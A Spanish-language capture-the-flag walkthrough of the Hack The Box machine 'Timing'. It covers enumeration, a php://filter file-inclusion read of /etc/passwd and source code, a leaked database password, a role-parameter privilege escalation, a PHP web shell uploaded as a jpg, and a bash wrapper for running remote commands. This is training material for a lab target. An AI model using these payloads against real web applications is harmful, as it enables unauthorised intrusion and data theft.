# htb timming

1º Vamos a ver los puertos abiertos
```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.135 -oG allports
```

Puertos abiertos el 22 y 80 que son el web y ssh



2º Sabemos que nos encontramos ante un linux ya que nos ha dado de ping 64, recordamos que linux suele estar en los 64 y windows en los 128

3º vamos a ver los puertos que servicios nos están dando, aunque ya sabemos que es ssh y servidor web, pero buscamos algo más de información

```bash
nmap -sCV -p22,80 10.10.11.135 -oN Targeted
```



Podemos sacar de información que estamos en un openssh 7.6p1 ubuntu el loguin php

4º Hacemos un whatweb para ver que nos da de primeras
```bash
┌──(riskoo㉿kali)-[~/Riskoo/maquinas/Timming]
└─$ whatweb 10.10.11.135                                                                                                                                    
http://10.10.11.135 [302 Found] Apache[2.4.29], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.11.135], RedirectLocation[./login.php]
http://10.10.11.135/login.php [200 OK] Apache[2.4.29], Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], Email[#,dkstudioin@gmail.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.11.135], JQuery, Script, Title[Simple WebApp]
```

> Nos aparece algo raro y es que parece que la página de inicio es redirigida directamente a login.php, vamos a ver por encima la web a ver que tal.

En evidencias o credenciales vamos a apuntar el mail dkstudioin@gmail.com

Efectivamente se trata de una web que redirige directamente a login.php

http://10.10.11.135/login.php?login=true

5º Antes que nada voy a hacer una pequeña búsqueda por google a ver si existe algún exploit para las versiones que ha detectado whatweb

En principio parece que tendría algúna vulnerabilidad pero nada muy grave y parece que por ahí no podríamos.

6º Vamos a hacer un fuzzing inicialmente tanto get y post y posteriormente iremos a ver posibles subdominios.

```bash
nmap --script http-enum -p80 10.10.10.135 -oN webScan
```
Con el script de nmap no encontramos nada

Vamos a usar wfuzz
```bash
wfuzz -c --hc=404 -t 200 -w ../diccionarios/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt 10.10.11.135/FUZZ         
```
Vemos images ,css ,js pero por ejemplo images es un 301 por lo que vamos a forzar que siga la redirección con el -L

No vemos nada claro , si intentamos entrar en /images/ nos dice que no tenemos permiso.

7º Como no hemos encontrado directorios voy a intentar buscar por extensiones.php
```bash
wfuzz -c --hc=404 -L -t 200 -w ../diccionarios/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt 10.10.11.135/FUZZ.php   
```
En este caso hemos encontrado header, upload, footer, profile, logout, login e index



Invetigamos estas páginas, todas las páginas nos llevan a login.php, hemos podido observar una evidencia nueva y es la web que se llamaría karosearch.com , lo podemos poner en evidencias y a lo mejor usarlo como hostname

8º antes de usar burpsuite para ver que nos devuelve realmente antes de hacer la redirección, voy a hacer una pequeña búsqueda de subdominios por si encontrásemos algo interesante.

Para ver subdominios previamente tenemos que añadir el vhost

En /etc/hosts



Una vez que tenemos puesto el dominio ya podemos hacer un gobuster

```bash
gobuster vhost -u http://karosearch.com -w ../diccionarios/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t 200
```

La mayoría nos manda a tomar... pero bueno hemos visto que tiene un webmail, un ipv4,new pero me temo que nos van a hacer redirección igual a login a expcepción de new que es un 403

No suelta que no tenemos permiso

Vamos a usar feroxbuster para probar y ver si encontramos algo más. Hemos encontrado un par de cosas interesantes que son /images/uploads  /db_conn.php pero no tenemos permiso para entrar.
```bash
feroxbuster -u http://10.10.11.135 -x php
```



8º Observando el código

He mirado el código de la web de login y nos damos cuenta que la carga de archivo está entrando haciendo una subida de directorio, por lo cual vamos a ver si podemos entrar haciendo un trasversal



entiendo que como tenemos el images.php realmente habría alguna forma en el que la url/image.php?algo=images/user-icon.png pero obviamente no sabemos que puede ser por lo que vamos a "fuzzearlo" para ver cual es el directorio superior.

Vamos a usar el diccionarios de SecList que tiene de burpsuiste y los parámetros y vamos a ver que tal..

```bash
wfuzz -u http://10.10.11.135/image.php?FUZZ=images/user-icon.png -w ../diccionarios/SecLists/Discovery/Web-Content/burp-parameter-names.txt -t200 --hh 0
```



Hemos encontrado img por lo que ahora buscaríamos con este parámetro img y vemos que funciona
http://10.10.11.135/image.php?img=images/user-icon.png




Ya vemos que por este camino al menos nos devuelve algo por lo que parece que está ejecutando.

Probamos pasar el login.php por parámetro http://10.10.11.135/image.php?img=login.php y vemos que funciona.

Inicialmente vamos a probar con un path transversal probando nuestros códigos /etc/passwd

Ahora pienso que podría ejecutarse algo en php por lo que al controlar que estamos intentando hackear con el transversal vamos a usar una de nuestras opciones que es 

```bash
php://filter/convert.base64-encode/resource=/etc/passwd

http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/etc/passwd
```



```bash

cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYWlsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXNyL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6Mzk6aXJjZDovdmFyL3J1bi9pcmNkOi91c3Ivc2Jpbi9ub2xvZ2luCmduYXRzOng6NDE6NDE6R25hdHMgQnVnLVJlcG9ydGluZyBTeXN0ZW0gKGFkbWluKTovdmFyL2xpYi9nbmF0czovdXNyL3NiaW4vbm9sb2dpbgpub2JvZHk6eDo2NTUzNDo2NTUzNDpub2JvZHk6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtbmV0d29yazp4OjEwMDoxMDI6c3lzdGVtZCBOZXR3b3JrIE1hbmFnZW1lbnQsLCw6L3J1bi9zeXN0ZW1kL25ldGlmOi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtcmVzb2x2ZTp4OjEwMToxMDM6c3lzdGVtZCBSZXNvbHZlciwsLDovcnVuL3N5c3RlbWQvcmVzb2x2ZTovdXNyL3NiaW4vbm9sb2dpbgpzeXNsb2c6eDoxMDI6MTA2OjovaG9tZS9zeXNsb2c6L3Vzci9zYmluL25vbG9naW4KbWVzc2FnZWJ1czp4OjEwMzoxMDc6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgpfYXB0Ong6MTA0OjY1NTM0Ojovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4KbHhkOng6MTA1OjY1NTM0OjovdmFyL2xpYi9seGQvOi9iaW4vZmFsc2UKdXVpZGQ6eDoxMDY6MTEwOjovcnVuL3V1aWRkOi91c3Ivc2Jpbi9ub2xvZ2luCmRuc21hc3E6eDoxMDc6NjU1MzQ6ZG5zbWFzcSwsLDovdmFyL2xpYi9taXNjOi91c3Ivc2Jpbi9ub2xvZ2luCmxhbmRzY2FwZTp4OjEwODoxMTI6Oi92YXIvbGliL2xhbmRzY2FwZTovdXNyL3NiaW4vbm9sb2dpbgpwb2xsaW5hdGU6eDoxMDk6MTo6L3Zhci9jYWNoZS9wb2xsaW5hdGU6L2Jpbi9mYWxzZQpzc2hkOng6MTEwOjY1NTM0OjovcnVuL3NzaGQ6L3Vzci9zYmluL25vbG9naW4KbXlzcWw6eDoxMTE6MTE0Ok15U1FMIFNlcnZlciwsLDovbm9uZXhpc3RlbnQ6L2Jpbi9mYWxzZQphYXJvbjp4OjEwMDA6MTAwMDphYXJvbjovaG9tZS9hYXJvbjovYmluL2Jhc2gK
```

Ahora vamos a decodificar. Inicialmente lo metemos en un archivo pass.txt y luego decodificamos
```bash
grep pass.txt | base64 -d

```


Realmente aquí solo está mostrando pero podemos por ejemplo encontrar información valiosa como puede ser que existe un suario que se llama aaron

```bash
aaron:x:1000:1000:aaron:/home/aaron:/bin/bash
```
Lo añadimos a nuestro archivo de credenciales.

Como ya podemos leer vamos a ver los .php que vimos que no teníamos acceso porque nos llevaba a .php o no nos aparecía nada.

Hay que tener en cuenta que nos va a dar el resultado en base 64 por lo que nos vamos a hacer un pequeño script que simplemente le pasemos como parámetro la pagina y nos la guarde decodificada en nuestro directorio resources.

El script sería algo así

```bash
#!bin/bash
curl -s "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=$1" | base64 -d
```


Vamos a ver que hay en los archivos: para empezar en el db_conn podemos ver unas credenciales que añadimos a las credenciales e intentamos entrar en el login 



Vamos a intentar entrar con estas credenciales en el login y el ssh
root 4_V3Ry_l0000n9_p422w0rd

En la página no funciona, voy a probar el ssh tampoco




Por otro lado vemos el fileupload que es bastante interesante, podemos sacar directorios, restricciones etc



Probamos en el login con diferentes contraseñas antes de que cojamos y e intentemos algo más complicado. En este caso usamos el mismo login que encontramos antes aaron como password y vemos que funciona.

Podemos ir a una zona que se llama profile_update.php , lo controlamos con el burpsuite y obtenemos la url que usa para actualizar. 



Ahora con el script que creamos antes vamos a bajar el codigo y verlo. Una vez descargado el archivo vemos que existe un parámetro que se llama role el cual no se envía pero podemos intentar ponerlo nosotros a ver que pasa...



si enviamos a repeater , añadimos el role=1 y enviamos, vemos que lo acepta, vamos luego a index y ahor atenemos una nueva página admin. Es necesario ser la misma sesion de burpsuite.

Miramos la subida de un archivo normal. No se ejecuta pero si se puede ver desde el historial y enviar a repeater



Nos dice que no nos deja un png, miramos el código upload.php que vimos antes
```bash
if ($imageFileType != "jpg") {
    $error = "This extension is not allowed.";
}
```

Subimos un archivo con una shell y capturamos.

Hay que tener en cuenta la forma de crear el nombre por lo que 





Necesitamos pasar la hora y sabemos también según el código como va a estar formada la imagen por lo que abrimos una consola interactiva de php con php-a y ponemos básicamente los mismos datos

```php
php -a
Interactive shell

php > $t = "Wed, 22 Jun 2022 10:41:26 GMT";
php > echo strtotime($t);
1655894486
php > echo md5('$file_hash') . strtotime($t)) . '_prueba.jpg';
PHP Parse error:  Unmatched ')' in php shell code on line 1
php > echo md5(('$file_hash') . strtotime($t)) . '_prueba.jpg';
348f1b874ddc51a1106d96c42ee0f6f6_prueba.jpg

php > 

┌──(riskoo㉿kali)-[~/Riskoo/maquinas/Timming]
└─$ curl 'http://10.10.11.135/images/uploads/348f1b874ddc51a1106d96c42ee0f6f6_prueba.jpg'                   
<?php system($_REQUEST['cmd']); ?>
```

Como hemos visto no ejecuta el php pero bueno podemos usar lo que vimos antes que si ejecutaba php
image.php?img=

```bash
curl 'http://10.10.11.135/image.php?img=images/uploads/348f1b874ddc51a1106d96c42ee0f6f6_prueba.jpg' -d 'cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
# Pequeño script 
```bash
#!/bin/bash

function ctrl_c(){
    echo -e "\n\n[!] Saliendo...\n"
    exit 1
}

trap ctrl_c INT

while true;do
    echo -n "[~] > " && read -r command
    command="$(echo $command | tr ' ' '+')"
    echo; curl -s -X GET "http://10.10.11.135/image.php?img=images/uploads/348f1b874ddc51a1106d96c42ee0f6f6_prueba.jpg&cmd=$command" | sed 's/<pre>//' | sed 's/<\/pre>//'; echo
done
```
Le damos permisos con chmod +x cmd.sh



Como vemos no nos deja movernos ni nada por lo que tendríamos que poner el comando

```bash
#poder mover los comandos, control c etc
rlwrap ./cmd.sh
```



Vale ahora que ya estamos dentro con una pequeña consola vamos a ir listando cosas a ver si encontramos algo interesante



Hacemos varias entre ellas

```bash
ls -l           --> aqui vemos archivos que ya teníamos
ls -l /home     --> vemos que está aaron
id              --> vemos la id

#listamos privilegios suid
find / -perm -4000 2>/dev/null

#buscamos capabilities de forma recursiva desde la raiz
getcap -r / 2>/dev/null

#probamos rutas típicas como etc opt
ls -l /opt

total 616
-rw-r--r-- 1 root root 627851 Jul 20  2021 source-files-backup.zip

```

